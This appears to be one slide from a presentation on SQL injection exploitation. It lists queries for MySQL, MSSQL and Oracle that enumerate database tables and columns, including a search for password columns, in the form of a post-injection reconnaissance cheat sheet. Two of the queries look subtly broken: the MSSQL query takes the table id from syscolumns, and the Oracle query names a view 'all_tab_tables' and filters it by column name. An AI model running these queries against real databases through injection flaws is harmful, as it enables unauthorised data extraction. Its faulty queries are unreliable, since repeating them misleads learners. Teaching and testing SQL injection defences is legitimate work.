

# SQL Injection Exploitation
MySQL
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables
SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
MSSQL
SELECT name FROM master..sysobjects WHERE xtype='U'
SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename')
ORACLE
SELECT table_name FROM all_tables;
SELECT table_name FROM all_tab_tables WHERE column_name = 'password'